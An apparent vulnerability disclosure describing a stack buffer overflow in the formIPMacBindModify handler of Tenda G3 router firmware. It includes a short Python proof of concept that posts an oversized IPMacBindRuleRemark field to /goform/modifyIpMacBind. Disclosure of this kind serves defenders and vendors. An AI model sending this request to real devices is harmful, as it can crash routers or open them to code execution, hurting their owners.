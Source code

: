 # Tenda G3 formIPMacBindModify
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formIPMacBindModify function.
### Vulnerability details
Stack-based buffer overflow in function formIPMacBindModify on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formIPMacBindModify line 48,  it reads in 4 user-provided parameters, and the variable ruleId, ip, mac, remark are passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formIPMacBindModify-1.png)
![](images/formIPMacBindModify-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/modifyIpMacBind'
payload = {
    "IPMacBindRuleRemark": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
